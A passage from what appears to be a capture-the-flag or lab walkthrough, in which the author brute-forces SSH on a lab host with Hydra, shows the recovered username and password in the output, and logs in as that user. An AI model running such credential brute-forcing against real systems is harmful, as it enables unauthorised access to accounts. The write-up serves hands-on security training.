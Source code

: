 Now i'll brute force ssh using the userlist and password list

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Wheel]
└─$ hydra -L users -P passwords ssh://192.168.66.202 -t64      
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-23 15:38:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 36 tasks per 1 server, overall 36 tasks, 36 login tries (l:6/p:6), ~1 try per task
[DATA] attacking ssh://192.168.66.202:22/
[22][ssh] host: 192.168.66.202   login: bob   password: Iamrockinginmyroom1212
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-23 15:39:06
```

Cool we have a valid cred now 

Time to login to ssh

```
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Wheel]
└─$ ssh bob@192.168.66.202   
The authenticity of host '192.168.66.202 (192.168.66.202)' can't be established.
ED25519 key fingerprint is SHA256:D9EwlP6OBofTctv3nJ2YrEmwQrTfB9lLe4l8CqvcVDI.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:3: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.66.202' (ED25519) to the list of known hosts.
bob@192.168.66.202's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 23 Jan 2023 02:40:37 PM UTC

  System load:  0.01              Processes:               221
  Usage of /:   60.0% of 9.78GB   Users logged in:         0
  Memory usage: 35%               IPv4 address for ens160: 192.168.66.202
  Swap usage:   0%


10 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue May 17 19:22:53 2022 from 192.168.118.14
$ 
```

